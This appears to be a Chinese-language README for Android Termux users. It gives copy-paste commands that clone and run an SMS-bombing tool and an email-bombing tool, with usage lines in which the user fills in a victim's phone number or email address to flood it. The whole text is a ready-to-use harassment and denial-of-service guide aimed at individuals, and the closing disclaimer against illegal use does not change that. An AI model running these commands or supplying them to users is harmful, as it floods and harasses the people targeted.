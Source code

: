 # 概述
  
- 如果你还没有下载termux可以点击[这里](https://f-droid.org/en/packages/com.termux/)
- 若你没有科学环境可以自行搜索下载，或者点击[这里](https://m.youxibao.com/app/15333.html)
  
- 假如你在代码使用的过程中出现
>Do you want to continue? [Y/n]
>
- 直接回车enter即可
  
# 一键代码使用
   ## 短信轰炸
  
  `pkg install git -y && pkg install python -y && pkg install openssl -y && git clone https://github.com/AdminWhaleFall/SMSBoom.git/ && cd SMSBoom && pip install -r requirements.txt && python smsboom.py
`
- 直接粘贴代码进入即可，后续可以直接使用下列指令
- 
  `cd SMSBoom;python smsboom.py run -t 64 -p 184****9269 -f 60 `
  将手机号替换为你需要轰炸的手机号

  ## 邮箱轰炸
  
  在使用之前配置
  
 `pkg install git -y && pkg install php -y && pkg install python -y && git clone https://github.com/cat-bucket/mail-bomber && cd mail-bomber
`
 

### 无需邮箱但无法指定内容
   
更新接口（可选）

`php index.php update-nodes`

后续使用

`cd mail-bomber;php index.php start-bombing 邮箱`

替换要轰炸的邮箱


### 邮箱轰炸 (需邮箱但可以指定内容)

   `cd mail-bomber;python cat.py`
   
   按照提示输入即可


# 免责声明
本库为对各种程序的简单调用提供，仅供参考，禁止用于商业及非法用途。使用一键指令造成的事故与损失，与作者无关


